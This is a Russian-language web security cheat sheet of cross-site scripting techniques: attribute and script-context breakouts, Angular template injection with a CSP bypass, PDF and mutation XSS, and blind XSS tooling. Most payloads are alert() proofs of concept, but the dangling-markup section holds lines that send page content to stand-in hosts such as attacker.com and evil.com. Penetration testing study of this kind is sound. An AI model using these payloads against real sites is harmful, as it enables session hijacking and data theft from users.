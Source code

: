 ***
[PayloadsAllTheThings/XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#cross-site-scripting)
***
# Навигация

> [[XSS#XSS в HTML атрибутах|1. XSS в HTML атрибутах]]
> [[XSS### XSS into JavaScript|2. XSS into JavaScript]]
> [[XSS#CSTI - Client side template injection|3. CSTI - Client side template injection]]
> [[XSS#Dangling Markup|4. Dangling Markup]]
> [[XSS#**CSP**|5. CSP]]
> [[XSS#Self-XSS|6. Self-XSS ]]
> [[XSS#PDF-XSS|7. PDF-XSS]]
> [[XSS#Mutation XSS|8. Mutation XSS]]
> [[XSS#Bliend XSS|9. Bliend XSS]]
***

## Формы отправки запросов JS

``` html
<script>
	fetch('https://site.com/', {method: "GET"}) // обычный GET запрос
</script>
```
``` html
<script>
	const req = new XMLHttpRequest()
	req.open("GET", "https://site.com/")
	req.send() // обычный GET запрос
</script>
```

---

# XSS в HTML атрибутах

[portswigger.net/XSS/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
1. Через intruder проверить не заблокированные теги и атрибуты.
2. Если ввод попадает в href, можно использовать следующую конструкцию `javascript:alert(1)`. Выйдет следующее: 
`<a href="javascript:alert(document.domain)">`
3. Проверь атрибут `accesskey`. Пример: 
`https://web-site/?%27accesskey=%27x%27onclick=%27alert(1)`; где `%27` = `'`. 
Скрипт сработает при нажатии:
- On Windows: `ALT+SHIFT+X` / `ALT+X`
- On MacOS: `CTRL+ALT+X`
- On Linux: `Alt+X`
# XSS into JavaScript
Если ввод попадает в скрипт внутри HTML:
1. Попытаться закрыть тег предыдущего скрипта и открыть новый: `</script><img src=1 onerror=alert(document.domain)>`
2. Если ввод находится в литералах : \` \`, ' ', " ", стоит попытаться выйти из них:
	```javascript
	'-alert(document.domain)-'
	';alert(document.domain)//
	```
	
	2.1. Если литералы экранируются, стоит проверить экранацию косой черты: \\ : ``\';alert(document.domain)//``
	2.2. Если косая черта экранируется, можно закодировать литерал, скорее всего в HTML кодировку: 
	`&apos;-alert(document.domain)-&apos;`
	2.3. Использовать конструкцию \${}: `${alert(document.domain)}`
1. Если запрещены круглые скобки, можно передавать аргументы в функции через конструкцию: `onerror=alert;throw 1`

# CSTI - Client side template injection
[XSS in Angular.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)
**CSTI** - тип уязвимости, возникающий, когда разработчик позволяет пользовательскому вводу определять выражения шаблонов на веб-странице, что позволяет злоумышленнику внедрять вредоносные выражения шаблонов (которые являются упрощённым JavaScript) для эксплуатации веб-приложения. Это происходит в браузере и HTML, аналогично тому, как работает межсайтовый скриптинг (XSS). Некоторые JS фреймворки, такие как AngularJS, имеют песочницу, которая предотвращает использование определённых объектов, к которым разработчик не имел права доступа. Чтобы злоумышленник мог эксплуатировать это, ему нужно найти способ "выбраться" из песочницы, что означает получение доступа к областям, таким как объект документа, чтобы проэксплуатировать веб-приложение.

>Также иногда с помощью CSTI могут обходить CSP, допустим он разрешает погружать скрипты только с [some.com](http://some.com/), вы идёте туда, находите там Angular.js файл, а дальше подключаете его к странице, внедряете директиву ng-app и вставляете пэйлоад:

`<script src='<https://some.com/angular.min.js>'></script><div ng-app>{{$on.constructor.constructor('alert(document.domain)')()}}`

Для эксплуатации CSTI в Angular без песочницы используют следующую полезную нагрузку:

`{{$on.constructor('alert(1)')()}}`
# Dangling Markup
Кража данных посредством эксплуатации пэйлоада с открывающейся `'`, но не закрывая её:
[Dangling Markup - HTML scriptless injection | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)
```html 
<img src='http://attacker.com/log.php?HTML=
```
```html
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
```
```html
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```
# **CSP**
[Content Security Policy (CSP) Bypass | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

<div style="margin:5px; padding:5px; background-color: #E56D3D"><b>CSP (Content Security Policy)</b> - позволяет определять белые списки источников для подключения JavaScript, стилей, изображений, фреймов, создания соединений. </div>

<div style="margin:5px; padding:5px; background-color: #E56D3D">Также CSP может регулировать возможность исполнения inline-скриптов, возможность подключения текущей страницы во фрейме и т. д.</div>

CSP — это механизм безопасности браузера, целью которого является смягчение XSS и некоторых других атак. Он работает путем ограничения ресурсов (таких как скрипты и изображения), которые может загружать страница, и ограничения возможности включения страницы в рамки других страниц. 

Чтобы включить CSP, ответ должен включать заголовок `Content-Security-Policy` со значением, содержащим политику. Сама политика состоит из одной или нескольких директив, разделенных точкой с запятой.
## CSP директивы 

[CSP Evaluator (csp-evaluator.withgoogle.com)](https://csp-evaluator.withgoogle.com/) - сервис для проверки на безопасность веб-страницы по её CSP тегам. 
![[CSP директивы.png]]

# Self-XSS
**Self-XSS** - это форма атаки, при которой жертва атаки ненамеренно запускает вредоносный код в своём собственном браузере, что приводит к раскрытию личной информации атакующему. Это достигается путём **обмана пользователей в копировании и вставке вредоносного контента в консоль веб-разработчика** их браузера. В обычных условиях атакующий публикует сообщение, утверждая, что копирование и выполнение определённого кода позволит пользователю получить виртуальные награды или взломанный сайт. На самом деле код позволяет атакующему захватить учётную запись жертвы. 

# PDF-XSS
Если браузер использует PDF, можно исполнить JS следующим образом:
```url
https://sute/file.pdf#any=javascript:alert(1)
```
# Mutation XSS
**Mutation XSS (mxss)** - тип атаки на веб-приложение, который происходит, когда ненадёжные данные обрабатываются в контексте свойства DOM 'innerHTML' и изменяются браузером. Этот  тип атаки особенно опасен, поскольку он может обойти большинство существующих фильтров и санитайзеров XSS, позволяя вредоносному коду выполняться в браузере пользователя. Примером может служить ситуация, когда сервер корректно экранирует входные данные, но не предотвращает их декодирование браузером в вредоносный скрипт из-за сложного поведения браузера, который переинтерпретирует контент. 
Другими словами браузер может самостоятельно не только декодировать символы, но и дописывать HTML теги. Т.е если подать на вход:
```javascript
<template><p title="</template><img src=x onerror=alert(1)>">
```
То браузер может переписать это в:
```javascript
<template>
	<p title="</template><img src=x onerror=alert(1)>"></p>
</template>
```
# Bliend XSS
**Bliend XSS** - тип уязвимости, при котором вредоносный код внедряется в веб-приложение и сохраняется на сервере, но его выполнение происходит в другом месте, недоступном для атакующего. 
Можно поднять у себя следующую службу: [XSS Hanter Express](https://github.com/mandatoryprogrammer/xsshunter-express), они служит отличный инструментом для эксплуатации **bliend XSS**.
